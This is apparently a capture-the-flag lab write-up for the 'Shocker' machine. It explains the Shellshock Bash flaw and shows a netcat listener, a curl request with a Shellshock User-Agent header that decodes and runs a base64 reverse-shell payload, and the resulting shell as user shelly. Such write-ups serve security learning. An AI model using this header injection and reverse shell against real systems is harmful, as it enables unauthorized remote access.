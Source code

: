 [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271), also known as
Shellshock, is a vulnerability affecting Bash version `1.14` up to `4.3`. The
vulnerability stems from the environment variables passed to Bash: it processes
trailing strings after function defined in environment variables. This allows an
attacker with access to a Bash script to get RCE.

In our case, we have a `user.sh` Bash script accessible over Apache CGI. When a
request is made to a CGI script, the web server provides the script with various
environment variables containing information about the request, including HTTP
headers! So we can define our own Bash environment variables using Apache CGI
and the `user.sh` script.

### Preparation

The Metasploit module `exploit/multi/http/apache_mod_cgi_bash_env_exec` can be
used to exploit this vulnerability, but it's not too hard to do manually.

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Let's send a request to Shocker with this command.

```sh
❯ curl -s -o "/dev/null" -H "User-Agent: () { :;}; /bin/echo $BASE64_REVSHELL_PAYLOAD | /usr/bin/base64 -d | /bin/bash -i" "http://10.10.10.56/cgi-bin/user.sh"
```

If we check our listener:

```
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.56] 52060
<SNIP>
shelly@Shocker:/usr/lib/cgi-bin$
```

It caught the reverse shell!

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `shelly`.

### Architecture

What is Shocker's architecture?
